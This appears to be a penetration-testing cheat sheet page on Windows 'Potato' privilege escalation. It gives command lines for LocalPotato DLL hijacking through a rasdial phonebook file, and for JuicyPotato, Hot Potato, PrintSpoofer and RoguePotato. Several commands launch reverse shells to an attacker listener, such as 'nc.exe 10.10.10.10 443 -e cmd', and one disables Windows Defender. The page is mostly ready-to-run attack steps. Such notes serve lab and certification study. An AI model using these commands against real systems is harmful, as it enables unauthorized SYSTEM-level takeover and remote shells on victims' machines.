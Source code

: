 ```yaml
---
title: Potato
parent: Method (Windows)
layout: default
nav_order: 6
---
```


## Local Potato (DLL Injection)
Windows 10: `WptsExtensions.dll` (THIS WILL BREAK SYSTEM, USE WITH CARE!)\
WIndows 7 (can on others too if can put in system32): `wlbsctrl.dll`

If you can use LocalPotato on Win 10+, first create the malicious wlbsctrl.dll. Then copy it to system32 folder. IKEEXT might not be automatic so useless even if you can restart. A way to do this is to create the following and name it try.pbk:

try.pbk
```
[IKEEXT]
MEDIA=rastapi
Port=VPN2-0
Device=Wan Miniport (IKEv2)
DEVICE=vpn
PhoneNumber=127.0.0.1
```

Subsequently, use the following command:\
`rasdial IKEEXT test test /PHONEBOOK:try.pbk`

## Rotten / Juicy Potato
1. First run `whoami /priv` to check privilege (make sure have SeAssignPrimaryToken or SeImpersonate).
2. Run the following after transferring juicypotato and shell executable:\
   `JuicyPotato.exe -t * -p C:\Users\Public\shell.exe -l 5837`\
   (-t can set to t or u, l is arbritary port number, p is the shell executable)
3. If CLSID fails can try point 5 in alternative method below, or https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato
4. When the Windows version is Windows Server 2019 or Windows 10 build 1809 onwards, this will not work, use PrintSpoofer / RoguePotato instead.

Alternative:
1. Run `whoami /priv` to check the privilege.
2. Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows.
3. Start a listener on Kali. Use a service account (or account with SeImpersonate or SeAssignPrimaryToken): `PSExec64.exe -accepteula -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`
4. Start another listener for Kali. Run `JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d- 49b8-abc6-03dd84127020}`
5. If the CLSID dont work use `https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md` or run GetCLSID.ps1 from the link.


## Hot Potato
1. Copy the potato.exe to the victim
2. Start listener, then run this: `potato.exe -ip LocalIP -cmd "C:\PrivEsc\reverse.exe" - enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true`
3. Windows Server 2008 (final parameter is wpad.domain.tld):\
   `Potato.exe -ip LocalIP -cmd "C:\PrivEsc\reverse.exe" -disable_exhaust true -disable_defender true -spoof_host WPAD.EMC.LOCAL`
4. Wait for a Windows defender update or manually trigger one. (Win Server 2008: Windows Update)

## PrintSpoofer/RoguePotato
Windows Server 2019 and Windows 10 build 1809 onwards

1. PrintSpoofer:\
   PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"
2. RoguePotato:\
   RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999